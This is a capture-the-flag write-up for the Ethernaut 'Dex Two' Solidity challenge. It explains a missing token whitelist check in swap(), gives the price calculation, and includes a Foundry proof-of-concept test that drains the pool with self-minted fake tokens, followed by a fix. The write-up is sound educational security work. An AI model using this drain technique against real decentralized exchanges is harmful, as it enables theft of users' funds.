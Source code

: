 # Level 23 - Dex Two

## Objectives

- Drain all balances of `token1` and `token2` from the `DexTwo` contract.

## Contract Overview

`DexTwo` is a contract or decentralized exchange platform that deals with token swapping and exchange. The `DexTwo` contract has a balance of 100 tokens each.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/DexTwo_slither.png)

## Finding the weak spots

The weak spot of the contract is function `swap()` that is missing checking that `from` and `to` are actually the whitelisted `token1` and `token2` tokens handled by the `DexTwo` contract.

```solidity
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }
```

This means that there is a vulnerability in the `swap` function that allows an attacker to sell any arbitrary `from` token and receive the real `to` token from the decentralized exchange. As a result, the attacker can create a new ERC20 token and use it to gain some other tokens for free, without actually sending any real tokens to the `DexTwo`.

The idea is to create a new ERC20 token that is entirely owned and managed by the attacker, which means they can mint or burn tokens at will. The attacker can then use this new token to call the swap function and receive some other tokens in return without actually providing any real tokens.

To drain the `token1` and `token2` from the `DexTwo` contract, the attacker needs to find the correct amount of the fake token to sell to receive 100 `token1`. The g`etSwapAmount` function is used to calculate the price of the swap. The attacker can use this function to determine the amount of fake token to sell to receive 100 `token1`. By doing some math, the attacker can determine the correct amount of fake token to sell to drain the `token1` and `token2` from the `DexTwo` contract with just one call to the swap function.

`100 token1 = amountOfFakeTokenToSell * 100 / DexBalanceOfFakeToken`

So to gain 100 token1 `amountOfFakeTokenToSell` and `DexBalanceOfFakeToken` has to be equal to 1.

## Potential attack scenario (hypothesis)

The idea is to create a new ERC20 token that is entirely owned and managed by the attacker, which means they can mint or burn tokens at will. The attacker can then use this new token to call the swap function and receive some other tokens in return without actually providing any real tokens.

## Plan of the attack and calculations

1. Attacker creates his own two ERC20 tokens and mint himself (`msg.sender`) 10 `fakeToken1` and 10 `fakeToken2`.
2. Attacker approves the `DexTwo` to spend 1 of his `fakeToken1` and 1 of his `fakeToken2`.
3. Attacker transfers 1 `fakeToken1` and 1 `fakeToken2` to `DexTwo` contract so that the price ratio is balanced to 1:1 when swapping.
4. Attacker calls `swap()` function twice (for each token) from `DexTwo` contract.
5. Attacker drains all balances of `token1` and `token2` from the `DexTwo` contract.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/23-DexTwo.t.sol))

```solidity
     // 1. Attacker creates his own two ERC20 tokens and mint himself (`msg.sender`) 10 `fakeToken1` and 10 `fakeToken2`.
        SwappableTokenTwo fakeToken1 = new SwappableTokenTwo(
            address(level),
            "Fake Token1",
            "FT1",
            10
        );

        SwappableTokenTwo fakeToken2 = new SwappableTokenTwo(
            address(level),
            "Fake Token2",
            "FT1",
            10
        );
        emit log_named_uint(
            "Balance of token1 before attack",
            level.balanceOf(address(token1), address(level))
        );
        emit log_named_uint(
            "Balance of token2 before attack",
            level.balanceOf(address(token2), address(level))
        );

        // 2. Attacker approves the `DexTwo` to spend 1 of his `fakeToken1` and 1 of his `fakeToken2`.
        fakeToken1.approve(address(level), 10);
        fakeToken2.approve(address(level), 10);

        // 3. Attacker transfers 1 `fakeToken1` and 1 `fakeToken2` to `DexTwo` contract so that the price ratio is balanced to 1:1 when swapping.
        fakeToken1.transfer(address(level), 1);
        fakeToken2.transfer(address(level), 1);

        // 4. Attacker calls `swap()` function twice (for each token) from `DexTwo` contract.
        level.swap(address(fakeToken1), address(token1), 1);
        level.swap(address(fakeToken2), address(token2), 1);

        emit log_string(
            "--------------------------------------------------------------------------"
        );
        emit log_named_uint(
            "Balance of token1 after attack",
            level.balanceOf(address(token1), address(level))
        );
        emit log_named_uint(
            "Balance of token2 before attack",
            level.balanceOf(address(token2), address(level))
        );

        // Assert that we have drained the Dex contract
        assertEq(
            token1.balanceOf(address(level)) == 0 &&
                token2.balanceOf(address(level)) == 0,
            true
        );
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/DexTwo.png)

## Recommendations

- There must be proper validations on the tokens allowed for swapping by the `DexTwo` for example we should use check: `require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");`
- If user-listed tokens are allowed to be swapped, careful attention should be paid to business-critical logic so that they can't exploit the contract

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-20-solution-shop)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
